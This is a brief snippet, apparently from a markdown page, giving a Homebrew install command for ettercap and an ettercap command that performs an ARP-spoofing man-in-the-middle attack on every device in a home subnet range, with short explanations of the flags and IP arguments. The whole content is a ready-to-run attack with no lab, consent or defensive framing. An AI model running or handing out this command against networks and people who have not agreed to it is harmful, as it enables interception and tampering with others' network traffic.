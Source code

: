 brew install ettercap

sudo ettercap -T -M arp:remote /192.168.0.1/ /192.168.0.1-255/

-T will print the logs to terminal
-M will mitm attack it

The first IP is the ip of your router, the second is the range of devices on your network